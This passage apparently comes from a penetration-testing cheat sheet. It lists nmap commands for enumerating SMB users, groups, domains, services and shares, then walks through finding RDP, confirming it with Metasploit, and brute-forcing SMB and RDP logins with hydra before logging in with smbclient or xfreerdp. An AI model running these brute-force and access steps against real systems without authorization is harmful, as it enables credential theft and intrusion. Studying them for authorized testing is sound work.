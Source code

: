 - logged in users details
	- `nmap --script smb-enum-users.nse -p445 <host>`
	- `sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 <host>`

- workgroups
	- `nmap --script smb-enum-groups.nse -p445 <host>`
	- `sudo nmap -sU -sS --script smb-enum-groups.nse -p U:137,T:139 <host>`
	- `nmap -p 445 --script smb-enum-groups --script-args smbusername=<user>,smbpassword=<password> <IP>`

- security level information
	- `nmap -sC -sV -A -T4 -p 445 <IP>`

- domain and services
	- `nmap --script smb-enum-domains.nse -p445 <host>`
	- `sudo nmap -sU -sS --script smb-enum-domains.nse -p U:137,T:139 <host>`

	- `nmap --script smb-enum-services.nse -p445 <host>`
	- `nmap --script smb-enum-services.nse --script-args smbusername=<username>,smbpass=<password> -p445 <host>`
	- `nmap -p 445 --script smb-enum-services --script-args smbusername=<user>,smbpassword=<password> <IP>`

```bash
nmap -p139,445 --script smb-enum-shares.nse 192.168.0.0/24
hydra -l user -P password_list.txt smb://192.168.0.X
smbclient //192.168.0.X/share_name -U User%password
```

### RDP (3389)

- protocol used for remotely accessing the computers
- How to exploit?
	- check for running services on the target and confirm if RDP is running on any open port
	- check metasploit to confirm the services running is RDP
	- use hydra to brute force the login credentials
	- use and RDP tools to login into the victim's machine

- find port running RDP
	- `nmap <IP>`
- confirm port running RDP services
	- msfconsole
	- search rdp
	- use auxiliary/scanner/rdp/rdp_scanner
	- show options
	- set RHOSTS <IP>
	- set RPORT <suspect-port>
	- exploit
- bruteforce rdp login credentials
	- `hydra -L usernamelist.txt -P passwordlist.txt rdp://<IP> -s <rdp-port>`
- Using Xfreerdp to create rdp session
	- `xfreerdp /u:<username> /p:<password> /v:<target-ip>:<rdp-port>`

### NetBIOS Enumeration (137/138/139)
